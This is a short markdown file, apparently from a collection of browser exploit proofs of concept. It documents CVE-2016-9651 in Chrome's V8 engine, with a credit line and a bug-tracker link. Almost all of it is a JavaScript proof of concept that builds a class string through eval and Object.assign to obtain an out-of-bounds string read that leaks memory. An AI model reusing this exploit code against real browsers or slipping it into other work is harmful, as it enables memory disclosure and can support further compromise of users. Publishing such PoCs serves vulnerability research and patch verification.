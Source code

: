 # CVE-2016-9651

- Date: Nov 2016
- Credit: Guang Gong of Alpha Team Of Qihoo 360

## PoC

```javascript
function getHiddenValue(){
    var obj = {};
    var oob = "/re/";
    //oob = oob.replace("re","*".repeat(0x2000));
    oob = oob.replace("re","*".repeat(0x100000));
    var str =  'class x extends Array{'+oob+"}";
        var fun = eval(str);
        Object.assign(obj,fun);
        return obj;
    }
function makeOobString(){
    var hiddenValue = getHiddenValue();
    var str =  'class x extends Array{}';
    var fun = eval(str);
    Object.assign(fun,hiddenValue);
    var oobString = fun.toString();
    return oobString;
}
var oobString = makeOobString();
```

## Reference

- [Issue](https://crbug.com/664411)
